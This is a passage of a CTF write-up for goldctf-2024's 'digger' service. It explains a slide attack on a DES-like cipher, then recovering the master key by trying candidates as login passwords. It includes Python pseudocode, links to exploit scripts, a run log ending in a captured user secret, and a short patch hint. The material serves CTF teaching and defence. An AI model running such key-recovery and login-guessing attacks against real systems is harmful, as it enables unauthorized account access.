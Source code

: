 Let `F()` be round encryption function. Then we need to find the pair `(in_block, out_block)` to satisfy the equation `F(in_block) = out_block`. When such blocks are identified, it's trivial to extract `round_key` from the equation. Then just reverse the key schedule algoritm and recover master key of DES.

Since the effective length of DES' master key is 56 bits, we need to guess other 8 bits of key. We could do this by trying all 256 variants of master key and use it as a password. When the original password is found, just output the user's secret.

Something like this:

```python
round_key = slide_attack()
master_key_candidates = recover_possible_master_keys(round_key)

for master_key in master_key_candidates:
    try:
        user = try_login(master_key)
        print(user.secret)
        break
    except InvalidPasswordException:
        continue
```

Example exploit: [sploit.py](https://github.com/C4T-BuT-S4D/goldctf-2024/blob/master/sploits/digger/sploit.py). The attack itself is implemented in [slide.py](https://github.com/C4T-BuT-S4D/goldctf-2024/blob/master/sploits/digger/slide.py).

It does some expensive computations, so run it with [PyPy](https://www.pypy.org/).

```bash
$ time pypy3.10 sploit.py "${HOSTNAME}" 'jKZNCPnMXJ3ooHcesGPagPdfxp' 
trying 32768 blocks more
encrypted 16384 / 32768
encrypted 32768 / 32768
encrypted 16384 / 32768
encrypted 32768 / 32768
found round_key: [1, 1, 0, 1, 0, 0, 0, 1, 0, 0, 1, 1, 1, 1, 1, 0, 0, 0, 1, 0, 0, 1, 1, 0, 1, 0, 1, 0, 1, 0, 0, 0, 0, 0, 1, 1, 0, 0, 1, 0, 0, 0, 0, 1, 1, 1, 1, 0]
master_key: [0, 1, 1, 0, 0, 0, 1, -2, 0, 0, 1, 0, 0, 0, 0, -2, 0, 1, 0, 1, 1, 1, 0, -2, 0, 1, 1, 0, 0, 1, 1, -2, 0, 1, 1, 1, 1, 0, 0, -2, 0, 0, 1, 0, 1, 1, 1, -2, 0, 1, 1, 0, 0, 0, 0, -2, 0, 1, 1, 0, 0, 0, 1, -2]
oracle calls: 4 by 16.0 KB
oracle data: 1024.0 KB, 1.0 MB
found key: b'b!]gy.`c'
b'successfully logged in, your secret: ABCDABCDABCDABCDABCDABCDABCDABC='
pypy3.10 sploit.py "${HOSTNAME}" 'jKZNCPnMXJ3ooHcesGPagPdfxp'  2.05s user 0.08s system 28% cpu 7.576 total
```

## Patching

Get rid of `std::move` and pass into `Backend::Backend()` the raw copy of `this->Contexts`.